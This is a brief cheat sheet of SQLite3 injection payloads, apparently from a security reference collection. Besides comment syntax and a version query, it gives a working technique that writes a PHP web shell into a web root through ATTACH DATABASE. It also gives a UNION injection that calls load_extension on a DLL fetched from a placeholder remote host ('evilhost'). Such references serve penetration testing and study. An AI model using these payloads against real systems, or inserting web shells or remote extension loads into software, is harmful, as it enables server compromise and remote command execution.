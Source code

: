 SQLite3 Payload
=====================================

- Comment 
    - ``--``
    - ``/**/``
- Version
    - ``select sqlite_version();``


Command Execution

.. code-block:: sql

    ATTACH DATABASE '/var/www/lol.php' AS lol;
    CREATE TABLE lol.pwn (dataz text);
    INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--


Load_extension

``UNION SELECT 1,load_extension('\\evilhost\evil.dll','E');--``
